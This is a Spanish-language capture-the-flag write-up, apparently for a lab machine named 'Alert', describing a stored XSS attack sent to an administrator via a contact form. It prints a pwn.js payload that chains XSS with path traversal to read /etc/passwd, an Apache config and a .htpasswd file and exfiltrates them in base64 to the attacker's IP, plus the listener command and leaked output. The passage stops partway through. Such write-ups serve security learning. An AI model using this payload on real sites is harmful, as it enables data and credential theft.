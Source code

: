 buscando si existen vulnerabilidades encontramos que se puede intentar acontecer un ataque XSS para obtener datos relevantes y enviarlo con el enlace al "administrador" por el apartado que tienen para contactar con ellos.
 
Creo un fichero de prueba con el siguiente contenido y comprobar si se realiza el ataque `XSS`

```js
<script>alert (0)</script>
```
Una vez que vemos funciona vemos que podemos generar un enlace  e intentar enviarselo a
alguien para que pinche y robar datos interesantes.

Por lo tanto ahora le vamos a mandar esto
```js
<script src="http://miIP/pwn.js"></script>
```
Mientras me pongo en escucha con el siguiente comando para comprobar si alguien clica

```shell
python3 -m http.server 80
```

y efectivamente si intenta a acceder a ese recurso por la siguiente solicitud que recibo.

```shell
10.10.11.44 - - [23/Oct/2025 07:49:55] code 404, message File not found
10.10.11.44 - - [23/Oct/2025 07:49:55] "GET /pwn.js HTTP/1.1" 404 -
```

Por lo tanto voy a genera un  fichero `pwn.js` para exfiltrar los datos si se pulsa en el enlace. 
La información se envia por la peticion en base64 para que se pueda realizar de manera más comoda la convesion posteriormente.

```js
var req = new XMLHttpRequest();

//Petición anterior que tenemos éxito y nos lo devuelve
req.open('GET','http://alert.htb/messages.php?file=../../../../../../etc/passwd',false);

//Petición anterior 
req.open('GET','http://alert.htb/messages.php?file=../../../../../../etc/apache2/sites-available/000-default.com',false);

req.open('GET','http://alert.htb/messages.php?file=../../../../../../var/www/statistics.alert.htb/.htpasswd',false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET','http://10.10.14.10/?b64' + btoa(req.responseText),false);
exfil.send();

```

Apuntando a lo diferente archivos obtenemos los siguientes datos interesantes:

- Obtenemos dos usuarios uno es `albert`y otro es `david` en el archivo `/etc/passwd`
```shell
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
```
- En el fichero de configuración de apache aparece el subdominio que anteriormente habia encontrado además de la disponibilidad de listar el contenido del fichero `.htpasswd` 
